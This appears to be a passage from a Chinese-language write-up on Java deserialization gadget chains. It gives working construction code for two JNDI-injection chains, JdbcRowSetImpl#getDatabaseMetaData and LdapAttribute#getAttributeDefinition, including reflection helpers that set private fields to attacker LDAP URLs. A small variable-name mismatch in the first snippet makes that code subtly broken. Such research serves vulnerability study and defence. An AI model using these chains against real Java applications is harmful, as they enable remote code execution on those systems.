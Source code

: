 #### JdbcRowSetImpl#getDatabaseMetaData

**JDK 原生可用**

```bash
JdbcRowSetImpl jdbcrowsetimpl = new JdbcRowSetImpl();
        String url = "ldap://127.0.0.1:10990";
        jdbcRowset.setDataSourceName(url);
```

这条链其实就是 FastJson Jdbc 链的另一种 getter 触发方式，效果同样是走到 connect() 中的 lookup 实现 JNDI 注入

由于组件序列化逻辑问题，**该链仅 Rome 可用**，原因详见后文

#### LdapAttribute#getAttributeDefinition

**JDK 原生可用**

```bash
Object obj = newInstance("com.sun.jndi.ldap.LdapAttribute", new Class<?>[]{String.class},"id");
        setFieldValue(obj, "baseCtxURL", "ldap://127.0.0.1:13562");
        setFieldValue(obj, "rdn", new CompositeName("whocansee"+"//b"));

    public static Object newInstance(String classname, Class<?>[] paramTypes, Object... args) throws NoSuchMethodException, ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException {
        return getConstructor(classname, paramTypes).newInstance(args);
    }
    public static Constructor<?> getConstructor(String classname, Class<?>[] paramTypes) throws ClassNotFoundException, NoSuchMethodException {
        Constructor<?> ctor = Class.forName(classname).getDeclaredConstructor(paramTypes);
        ctor.setAccessible(true);
        return ctor;
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        if(field != null) {
            field.set(obj, value);
        }
    }
    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
```

此链效果：JNDI 注入
